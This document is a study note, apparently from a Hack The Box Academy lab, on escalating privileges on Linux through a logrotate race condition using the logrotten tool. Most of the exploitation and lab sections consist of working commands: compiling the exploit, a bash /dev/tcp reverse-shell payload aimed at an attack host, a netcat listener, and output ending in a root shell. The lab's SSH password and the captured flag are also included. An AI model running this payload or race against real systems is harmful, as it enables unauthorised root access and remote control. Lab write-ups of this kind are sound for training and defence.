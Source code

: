 # Logrotate

Logrotate has many features for managing these log files. These include the specification of:

the size of the log file,
its age,
and the action to be taken when one of these factors is reached.

cat /etc/logrotate.conf

Force a new rotation :

sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3

Find the corresponding configuration files in /etc/logrotate.d/ directory :

ls /etc/logrotate.d/
alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp

cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}

## Exploitation

Requirements :

- we need write permissions on the log files
- logrotate must run as a privileged user or root
- vulnerable versions:
3.8.6
3.11.0
3.15.0
3.18.0

git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten

echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
create

On our attack host :s
nc -nlvp 9001

./logrotten -p ./payload /tmp/tmp.log

## LAB

ssh htb-student@10.129.204.41
HTB_@cademy_stdnt!



git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
scp logrotten htb-student@10.129.204.41:/home/htb-student/
HTB_@cademy_stdnt!

### Recon

htb-student@ubuntu:~$ tree .
.
├── backups
│   ├── access.log
│   └── access.log.1
└── logrotten
    ├── README.md
    ├── logrotten.c
    ├── logrotten.png
    └── test
        ├── create_env.sh
        ├── logrotate.cfg
        └── pwnme.log

ls -l backups/

ls -l backups/
total 4
-rw-r--r-- 1 htb-student htb-student  0 Jun 14  2023 access.log
-rw-r--r-- 1 htb-student htb-student 91 Jun 14  2023 access.log.1



grep "create\|compress" /etc/logrotate.conf | grep -v "#"
grep: /etc/logrotate.conf: No such file or directory

cat /var/lib/logrotate.status
logrotate state -- version 2
"/home/htb-student/backups/access.log" 2023-6-14-14:1:27

logrotate -vf /home/htb-student/backups/access.log
Ignoring /home/htb-student/backups/access.log because it's empty.

logrotate -vf /home/htb-student/backups/access.log.1

sudo logrotate -vf /home/htb-student/backups/access.log.1

chmod 777 /var/lib/logrotate.status
chmod: changing permissions of '/var/lib/logrotate.status': Operation not permitted

ls /etc/logrotate.d/
alternatives  apt      dpkg  rsyslog                 ufw
apport        bootlog  mon   ubuntu-advantage-tools  unattended-upgrades

cat /etc/logrotate.d/dpkg
/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}

### Exploit

cd logrotten
gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/10.10.14.179/9001 0>&1' > payload

On our attack host :s
nc -nlvp 9001

./logrotten -p ./payload /home/htb-student/backups/access.log
Waiting for rotating /home/htb-student/backups/access.log...

echo 11 > /home/htb-student/backups/access.log

Renamed /home/htb-student/backups with /home/htb-student/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

nc -nlvp 9001

root@ubuntu:~# cat /root/flag.txt
HTB{l0G_r0t7t73N_00ps}
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cat
ls

